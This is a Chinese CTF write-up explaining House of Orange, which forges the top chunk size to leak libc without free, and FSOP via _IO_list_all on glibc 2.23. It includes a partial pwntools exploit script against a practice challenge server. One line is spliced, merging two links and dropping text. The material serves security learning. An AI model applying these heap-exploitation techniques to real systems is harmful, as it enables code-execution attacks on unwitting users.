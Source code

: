 这时就发现问题了。之前我做的题最多是edit功能缺席，free功能一直是好朋友和主力，现在直接没这个选项了。又是学习[wp](https://www.cnblogs.com/LynneHuan/p/14696780.html)的一天。根据[ctf wiki](https://ctf-wiki.org/en/pwn/linux/user-mode/heap/ptmalloc2/house-of-orange/)所说，House of Orange 的核心在于在没有 free 函数的情况下得到一个释放的堆块 (unsorted bin)，进而泄露基地址。这种操作的原理简单来说是当前堆的 top chunk 尺寸不足以满足申请分配的大小的时候，原来的 top chunk 会被释放并被置入 unsorted bin 中，通过这一点可以在没有 free 函数情况下获取到 unsorted bins。我们这道题只能申请4次堆块，top chunk正常来说不会大小不够，但是我们可以溢出啊！通过溢出漏洞伪造top chunk size不就行了？注意伪造时要注意下面4点：

1. 伪造的 size 必须要对齐到内存页
2. size 要大于 MINSIZE(0x10)
3. size 要小于之后申请的 chunk size + MINSIZE(0x10)
4. size 的 prev inuse 位必须为 1

这里的对齐是以内存页为单位，通常是4kb。比如有一个top chunk 的 size 大小是 20fe1，起始位置是0x602020，通过计算即可得知 0x602020+0x20fe0=0x623000 是对于 0x1000（4kb）对齐的。因此我们伪造的 fake_size 可以是 0x0fe1、0x1fe1、0x2fe1、0x3fe1 等对齐4kb的 size。伪造完成后，我们申请一个比top chunk size大的chunk就能让原有的top chunk进入unsorted bin了。接着再申请一个堆块，这个堆块会从unsorted bin中已有的chunk里切割给我们，获得的chunk会带着宝贵的main_arena地址信息，此时就能泄露基址了。
https://phot0n.com/2022/09/06/%E9%AB%98%E7%89%88%E6%9C%AC%E7%9A%84%E5%A0%86%E5%88%A9%E7%94%A8%E4%B8%8EFSOP/https://ctf-wiki.org/en/pwn/linux/user-mode/io-file/fsop/)。FSOP 的核心思想就是劫持_IO_list_all 的值来伪造链表和其中的_IO_FILE 项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。这个东西有很多种触发方式，这里就针对这道题的环境：64位+libc-2.23.so，利用`malloc_printerr->_libc_message->abort->_IO_flush_all_lockup->_IO_overflow`这条调用链。这条链的硬性要求为`fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base`。习惯把笔记做exp上，直接放exp。

```python
from pwn  import *
import functools

sh = remote("node4.buuoj.cn",29909)
LOG_ADDR = lambda x, y: log.success('{} ===> {}'.format(x, hex(y)))
int16 = functools.partial(int, base=16)
context.arch="amd64"
context.os="linux"
context.endian="little"

main_arena_offset = 0x3c4b20

def build_house(length:int, name, price:int=0xff, color:int=1):
    sh.sendlineafter("Your choice : ", "1")
    sh.sendlineafter("Length of name :", str(length))
    sh.sendafter("Name :", name)
    sh.sendlineafter("Price of Orange:", str(price))
    sh.sendlineafter("Color of Orange:", str(color))
    sh.recvuntil("Finish\n")

def see_house():
    sh.sendlineafter("Your choice : ", "2")
    name_msg = sh.recvline_startswith("Name of house : ")
    price_msg = sh.recvline_startswith("Price of orange : ")
    log.success("name_msg:{}\nprice_msg:{}".format(name_msg, price_msg))
    return name_msg, price_msg


def upgrade_house(length:int, name, price:int=0xff, color:int=1):
    sh.sendlineafter("Your choice : ", "3")
    sh.sendlineafter("Length of name :", str(length))
    sh.sendafter("Name:", name)
    sh.sendlineafter("Price of Orange: ", str(price))
    sh.sendlineafter("Color of Orange: ", str(color))
    sh.recvuntil("Finish\n")

build_house(0x10, "aaaa")

# change the size of top_chunk to 0xfa1
upgrade_house(0x100, b"a" * 0x38 + p64(0xfa1))

# house of orange
build_house(0x1000, "cccc")
```